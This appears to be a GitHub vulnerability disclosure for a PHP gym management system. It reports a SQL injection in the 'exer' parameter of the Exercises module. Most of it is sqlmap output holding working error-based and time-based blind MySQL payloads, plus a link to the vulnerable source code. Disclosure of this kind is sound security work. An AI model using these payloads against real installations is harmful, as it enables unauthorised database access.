 # Gym-Management-Exercises-Sqlinjection
## Sqlinjection location
After logging in to the background
The injection point is in Exercises module

![image](https://user-images.githubusercontent.com/81155906/183283137-46fb7afa-a93c-4578-89ac-eb9a1de18765.png)

#### Sqlmap Attack

![image](https://user-images.githubusercontent.com/81155906/183283180-e4ae8794-c141-476c-87e3-865774ec96a0.png)

---
[16:50:50] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
GET parameter 'exer' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 952 HTTP(s) requests:
---
Parameter: exer (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: exer=26'||(SELECT 0x77616550 WHERE 7593=7593 AND (SELECT 2167 FROM(SELECT COUNT(*),CONCAT(0x7171767171,(SELECT (ELT(2167=2167,1))),0x716b787071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: exer=26'||(SELECT 0x737a4e63 WHERE 5129=5129 AND (SELECT 8000 FROM (SELECT(SLEEP(5)))ZYTF))||'
---
[16:52:27] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP, PHP 7.3.4
back-end DBMS: MySQL >= 5.0
---

## Code Download

https://www.sourcecodester.com/php/15515/gym-management-system-project-php.html

